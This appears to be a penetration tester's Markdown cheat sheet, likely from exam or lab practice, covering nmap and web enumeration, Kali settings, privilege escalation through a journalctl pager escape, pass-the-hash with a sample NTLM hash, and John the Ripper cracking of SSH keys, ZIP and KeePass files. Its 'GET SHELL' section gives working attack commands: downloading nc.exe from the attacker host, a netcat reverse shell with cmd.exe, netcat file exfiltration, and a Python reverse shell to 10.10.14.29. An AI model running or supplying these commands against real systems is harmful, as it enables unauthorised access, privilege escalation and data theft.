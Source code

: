 # RECON
## Initial Nmap Scan
```bash
nmap -Pn -sC -sV -oA nmap $ip
```

## Enumeration Checklists
https://github.com/theonlykernel/enumeration/wiki
https://medium.com/oscp-cheatsheet/oscp-cheatsheet-6c80b9fa8d7e

## WPscan for wordpress
```bash
wpscan --disable-tls-checks --url $url
```

## Samba
```bash
auxiliary/scanner/smb/smb_version
nmblookup -A $ip
smbclient -L $ip
```

## dirbuster
wordlist: /usr/share/wordlists/dirb/common.txt
URL to fuzz (find file in unknown folder)
/{dir}/phpbash.min.php

## Gobuster HTTP Enumeration
```bash
./gobuster dir -u $url -w /usr/share/wordlists/dirb/common.txt
```





# GENERAL
## Kali Configuration
```bash
## set keyboard layout
setxkbmap -layout de
# set timezone
sudo dpkg-reconfigure tzdata
```

## Find without errors
```bash
find / -name test.py 2>/dev/null
```

## Save all Terminal Output to File
https://unix.stackexchange.com/questions/200637/save-all-the-terminal-output-to-a-file
```bash
# Convert RAW Output to TXT
cat $SCRIPT_LOG_FILE | perl -pe 's/\e([^\[\]]|\[.*?[a-zA-Z]|\].*?\a)//g' | col -b > $txtfile
```

## NTFS Alternate Datastream
```bash
# show alternate datastreams
dir /R

# output alternate datastreams
powershell Get-Content -Path "hm.txt" -Stream "root.txt"
```
# PRIVESC
## LinEnum.sh
https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

## GTFOBIns
https://gtfobins.github.io/ 

## journalctl
```bash
# size termain windows very small
usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/sh
# whoami
root
```

## Pass-the-Hash spawn CMD
```bash
pth-winexe -U$domain/$username%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //$ip cmd
```

# GET SHELL
## Netcat Windows
```bash
powershell wget "http://[KALI-IP]/windows-resources/binaries/nc.exe" -outfile nc.exe
nc.exe -e cmd.exe [KALI-IP] 1234

#on Kali listen with
nc -nvlp 1234
```

## Transfer Files
```bash
# listen on kali with
nc -lp 1235 > [FILENAME]

# transfer file on victim
nc.exe -w 3 [KALI-IP] 1235 <[FILENAME]
```

## Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.29",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 
```
```bash
# make shell better
python -c 'import pty; pty.spawn("/bin/bash");' 
#on Kali listen with
nc -nvlp 1234
```
# Password Cracking
## John
```bash
john --wordlist=/home/mallab/Downloads/rockyou.txt htpasswd.txt 
```

## SSH Private Key / id_rsa
```bash
python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
sudo john --wordlist=rockyou.txt id_rsa.hash
```

## ZIP Archive
```bash
/usr/sbin/zip2john avedb.zip > avedb.zip.hashes
sudo john --wordlist=rockyou.txt avedb.zip.hashes
```

## KDBX Keepassa
```bash
sudo keepass2john jeeves.kdbx > jeeves.hash
```
